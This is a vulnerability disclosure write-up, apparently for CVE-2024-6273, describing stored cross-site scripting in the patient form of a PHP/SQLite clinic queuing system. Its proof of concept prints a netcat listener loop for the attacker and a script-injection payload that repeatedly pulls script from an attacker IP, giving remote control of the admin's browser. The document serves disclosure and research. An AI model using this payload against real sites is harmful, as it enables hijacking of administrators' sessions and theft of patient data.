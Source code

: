 # CVE-2024-6273 - Stored Cross Site Scripting by an Unauthenticated User

**Researcher Name:** Guru Raghav Saravanan

**Product:** Clinic Queuing System using PHP and SQlite3 v1.0 (SourceCodester)

**Vulnerability:** Stored Cross Site Scripting by an Unauthenticated User

**POC:**
The vulnerability is present in **patient_side.php**. The input fields Full Name, Contact and Address does not sanitize the user input which leads to Stored Cross Site Scripting.

The **save_patient()** function in **master.php** does not sanitize the input before saving.

**patient_side.php**

![patient_side.php](assets/CVE-2024-6273/pic0.png "patient_side.php")

**master.php**

![master.php](assets/CVE-2024-6273/pic1.png "master.php")

Endpoint: https://<vulnerable_site>/patient_side

![patient_form](assets/CVE-2024-6273/pic2.png "patient_form")

Clicking on Submit, the form is submitted to the administrator and can only be viewed by the admin.

![patient_form](assets/CVE-2024-6273/pic3.png "patient_form")

![patient_form](assets/CVE-2024-6273/pic4.png "patient_form")

Now to view the submitted form, login as admin and click on the reports section.

![Report](assets/CVE-2024-6273/pic5.png "Report")

![Report](assets/CVE-2024-6273/pic6.png "Report")

![Report](assets/CVE-2024-6273/pic7.png "Report")

All the stored XSS gets executed…

**Leveraging reverse_connection:**

**Payload:**
**Attacker-Side:** `while :; do printf "sgr>$ "; read c; echo $c | nc -vvlp 4444 >/dev/null; done` 

**Victim-Side:** `"><script>setInterval(function(){d=document;z=d.createElement("script");z.src="//<attacker-ip>:4444";d.body.appendChild(z)},0)</script>`

![shell](assets/CVE-2024-6273/pic8.png "shell")

Start the listener

![payload](assets/CVE-2024-6273/pic9.png "payload")

Visit the reports page now…

![Report](assets/CVE-2024-6273/pic10.png "Report")

Reverse connection received in the attacker machine.

![Report](assets/CVE-2024-6273/pic11.png "Report")